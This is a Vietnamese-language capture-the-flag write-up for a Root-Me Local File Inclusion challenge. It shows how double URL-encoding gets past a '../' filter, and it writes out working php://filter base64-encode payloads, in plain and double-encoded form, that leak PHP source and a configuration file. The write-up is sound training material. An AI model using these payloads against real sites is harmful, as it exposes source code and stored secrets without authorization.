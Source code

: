 # WRITE UP

**Challenge:** [Local File Inclusion – Double Encoding](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding)

<img src="./media/image1.png" style="width:6.5in;height:1.94792in" alt="Graphical user interface, text, application Description automatically generated" />

Fuzz với Path Traversal, ta thấy web server block hoặc filter ‘../’:

<img src="./media/image2.png" style="width:6.5in;height:0.91667in" alt="Graphical user interface, text, application Description automatically generated" />

Tên challenge là LFI – Double Encoding URL Double Encoding. Ta convert ../ %252E%252E%252F (%252E = . ; %252F = /)

Đưa vào ?page=\[value\] ta được:

<img src="./media/image3.png" style="width:6.5in;height:0.99306in" alt="Graphical user interface, text Description automatically generated" />

Đến đây, sau khi append bất kỳ text nào thì server sẽ concat text.inc.php:

<img src="./media/image4.png" style="width:6.5in;height:1.08958in" alt="Graphical user interface, text, application Description automatically generated" />

Dạo quanh index.html và homepage thì không phát hiện bất kỳ điều gì đặc biệt. Tương tự các bài LFI khác, ta cần get source để xem tác giả đặt gì trong web. Khi xem về cách get source php, ta có payload get như sau:

*?page=php://filter/convert.base64-encode/resource=\[source\_file\]*

Giờ thì đưa vào payload ta để get source ở **home.inc.php**:

*?page=php://filter/convert.base64-encode/resource=home*

Double encoding: *?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dhome*

<img src="./media/image5.png" style="width:6.5in;height:0.59653in" />

Bỏ vào base64 decode:

<img src="./media/image6.png" style="width:6.5in;height:3.25347in" alt="Graphical user interface, text, application Description automatically generated" />

View source không tìm được gì đặc biệt. Tuy vậy, website đã sử dụng thư viện từ **conf.inc.php**. Từ đó, tiến hành xem thử conf.inc.php:

*?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf*

<img src="./media/image7.png" style="width:6.5in;height:0.66597in" />

Flag xuất hiện trong conf.inc.php:

<img src="./media/image8.png" style="width:6.5in;height:3.23472in" alt="Graphical user interface, text Description automatically generated" />

- Flag: "****************************"
